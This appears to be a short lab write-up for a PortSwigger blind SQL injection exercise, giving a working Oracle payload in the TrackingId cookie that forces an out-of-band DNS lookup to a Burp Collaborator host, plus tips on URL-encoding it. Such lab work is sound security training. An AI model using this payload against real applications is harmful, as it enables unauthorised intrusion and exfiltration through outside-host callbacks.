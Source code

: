 # Lab: Blind SQL injection with out-of-band interaction

My burp collaborator subdomain: `http://pf8i82tajkqo41185xplknhm1d74vt.burpcollaborator.net`

### Try DNS payload for each type of db server
See: https://portswigger.net/web-security/sql-injection/cheat-sheet#time-delays

Perform sqli in the `TrackingId` cookie parameter


Oracle Payload:

`' || (SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://pf8i82tajkqo41185xplknhm1d74vt.burpcollaborator.net"> %remote;]>'),'/l') FROM dual)--`


The above triggered a DNS lookup to my collaborator subdomain, lab solved!

### Notes
* Make sure to encase the SELECT statement with parentheses
* Include protocol in your burp collaborator subdomain (`http://`)
* Make sure to url encode your payload